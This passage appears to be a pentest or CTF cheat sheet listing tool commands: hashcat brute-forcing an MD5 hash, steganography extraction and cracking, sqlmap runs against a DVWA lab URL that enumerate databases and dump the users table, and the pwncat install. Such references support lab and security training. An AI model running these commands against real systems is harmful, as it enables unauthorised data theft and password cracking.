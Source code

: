 - MD5 bruteforce
  
```sh
hashcat -a 3 -m 0 "48bb6e862e54f2a795ffc4e541caed4d" ?a?a?a?a --show
```

## Steganography

```sh
steghide extract -sf file.jpg
```

```sh
stegcracker file.jpg
```

```sh
binwalk file
binwalk -e file
```

## SQLMAP

<https://github.com/sqlmapproject/sqlmap.git>

```sh
sqlmap.py -u "http://www.truc.com/index.php" --form
sqlmap.py -u "http://www.truc.com/index.php" --data "[post data]"
sqlmap.py -u "http://www.truc.com/index.php" --data "[post data]" --dump
```

```sh
sqlmap --url http://www.truc.com/index.php?dvwa/vulnerabilities/sqli/?id=1\&Submit=Submit# --cookie='security=low; PHPSESSID=dqsqdqsdfzefv' --dbs
sqlmap --url http://www.truc.com/index.php?dvwa/vulnerabilities/sqli/?id=1\&Submit=Submit# --cookie='security=low; PHPSESSID=dqsqdqsdfzefv' --tables -D dvwa
sqlmap --url http://www.truc.com/index.php?dvwa/vulnerabilities/sqli/?id=1\&Submit=Submit# --cookie='security=low; PHPSESSID=dqsqdqsdfzefv' --columns -D dvwa -T users
sqlmap --url http://www.truc.com/index.php?dvwa/vulnerabilities/sqli/?id=1\&Submit=Submit# --cookie='security=low; PHPSESSID=dqsqdqsdfzefv' --dump -D dvwa -T users
```

```sh
--form
--form --dbs
--form --tables -D [database]
--form --columns -D [database] -T [table]
--form --dump -D [database] -T [table] --fresh-queries
```

## pwncat

```sh
python3 -m venv pwncat-env
source pwncat-env/bin/activate
pip install pwncat-cs
```
